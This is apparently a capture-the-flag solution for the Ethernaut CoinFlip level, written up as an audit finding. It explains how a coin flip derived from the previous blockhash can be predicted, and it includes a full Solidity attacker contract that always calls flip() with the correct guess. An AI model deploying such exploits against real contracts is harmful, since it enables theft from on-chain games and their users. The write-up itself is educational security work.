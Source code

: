 #### This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

## Summary
The coin flip depends on this calculation alone `uint256 coinFlip = blockValue / FACTOR`.
The values are as following:

`blockValue = uint256(blockhash(block.number - 1))`

`uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968`

This can be easily exploited since the blockValue can be easily computed on-chain by another contract.

## Vulnerability Detail
Since both values are known, they can be used by a malicious contract on-chain, to actually pre-compute the value of `true`/`false` and directly call the `flip()` function of `CoinFlip`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ICoinFlip.sol";

contract CoinFlipAttacker {
    address public coinFlipAddress;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        coinFlipAddress = _coinFlipAddress;
    }

    function attackFlip() public {
        ICoinFlip coinFlipContract = ICoinFlip(coinFlipAddress);

        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        coinFlipContract.flip(side);
    }
}
```

Attack scenario:
1. An attacker deploys a malicious contract `CoinFlipAttacker.sol`. It has a function `attackFlip()` which performs the attack.
2. The attacker then calls the `CoinFlipAttacker::attackFlip` function. It pre-computes the `coinFlip` and calls `CoinFlip::flip` with that value.
3. The attacker always gets the correct flip.

## Impact
High. This breaks a core contract functionality. It is not constrained at all and everyone can easily exploit it.

## Code Snippet
https://github.com/danielvichinyan/ethernaut-solutions/blob/main/coinflip/CoinFlip.sol#L13-L31

## Tools Used
Remix IDE, Manual Review

## Recommendation
Incorporate external randomness. Use an Oracle service like Chainlink VRF (Verifiable Random Function) to get a truly random `FACTOR` number.
